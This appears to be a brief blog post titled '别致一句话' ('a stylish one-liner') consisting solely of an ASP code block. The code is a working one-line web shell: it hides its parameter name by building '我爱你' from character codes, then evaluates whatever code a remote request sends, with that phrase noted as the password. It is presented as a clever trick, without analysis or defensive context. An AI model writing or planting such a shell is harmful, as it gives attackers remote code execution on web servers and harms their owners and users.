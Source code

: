 title: "别致一句话"
date: 2012-08-16 22:24:04
tags:
id: 109
comment: false
---

[code lang="c"]
&lt;%
i=(Chr(-12590))
love=(Chr(-20306))
you=(Chr(-15133))
OK=i&amp;love&amp;you
CNM=Request(OK)
eVal CNM 'pass:我爱你
%&gt;
[/code]